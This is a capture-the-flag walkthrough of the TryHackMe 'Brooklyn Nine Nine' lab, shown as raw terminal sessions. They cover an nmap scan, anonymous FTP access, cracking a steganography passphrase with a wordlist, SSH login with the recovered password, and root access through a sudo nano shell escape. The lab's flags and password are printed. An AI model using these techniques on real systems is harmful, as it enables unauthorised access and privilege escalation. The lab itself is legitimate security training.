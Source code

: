 nmap results

┌──(kali㉿kali)-[~/…/tryhackme/thm/brooklyn99/nmap_results]
└─$ nmap -sC -sV -vv 10.10.41.112 -oA results
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-08 20:02 EDT
...
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.58.120
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
...
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel.
...
FTP:

┌──(kali㉿kali)-[~/Desktop/tryhackme/thm/brooklyn99]
└─$ ftp 10.10.41.112
Connected to 10.10.41.112.
220 (vsFTPd 3.0.3)
Name (10.10.41.112:kali): Anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> mget *
mget note_to_jake.txt [anpqy?]? 
229 Entering Extended Passive Mode (|||30422|)
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
100% |****************************************************|   119        1.29 KiB/s    00:00 ETA
226 Transfer complete.
119 bytes received in 00:00 (0.66 KiB/s)
ftp> bye
221 Goodbye.



note to jake:
┌──(kali㉿kali)-[~/Desktop/tryhackme/thm/brooklyn99]
└─$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine




Steganography:
┌──(kali㉿kali)-[~/Desktop/tryhackme/thm/brooklyn99]
└─$ steghide extract -sf brooklyn_steg.jpg
Enter passphrase: 
steghide: can not uncompress data. compressed data is corrupted.


┌──(kali㉿kali)-[~/Desktop/tryhackme/thm/brooklyn99]
└─$ stegcracker brooklyn_steg.jpg -o stegpass.txt   
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2023 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which 
will blast through the rockyou.txt wordlist within 1.9 second as opposed 
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

No wordlist was specified, using default rockyou.txt wordlist.
Counting lines in wordlist..
Attacking file 'brooklyn_steg.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: admin
Tried 20523 passwords
Your file has been written to: stegpass.txt
admin



┌──(kali㉿kali)-[~/Desktop/tryhackme/thm/brooklyn99]
└─$ steghide extract -sf brooklyn_steg.jpg       
Enter passphrase: 
wrote extracted data to "note.txt".
                                                                                                 
┌──(kali㉿kali)-[~/Desktop/tryhackme/thm/brooklyn99]
└─$ cat note.txt        
Holts Password:
fluffydog12@ninenine

Enjoy!!


ssh login:
┌──(kali㉿kali)-[~/Desktop/tryhackme/thm/brooklyn99]
└─$ ssh holt@10.10.41.112                 
The authenticity of host '10.10.41.112 (10.10.41.112)' can't be established.
ED25519 key fingerprint is SHA256:ceqkN71gGrXeq+J5/dquPWgcPWwTmP2mBdFS2ODPZZU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.41.112' (ED25519) to the list of known hosts.
holt@10.10.41.112's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ 

user flag:
holt@brookly_nine_nine:~$ ls
nano.save  user.txt
holt@brookly_nine_nine:~$ cat user.txt
ee11cbb19052e40b07aac0ca060c23ee
holt@brookly_nine_nine:~$ 



sudo nano:
holt@brookly_nine_nine:/home$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano


https://gtfobins.github.io/gtfobins/nano/#sudo
sudo nano
^R^X
reset; sh 1>&0 2>&0

nano root
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

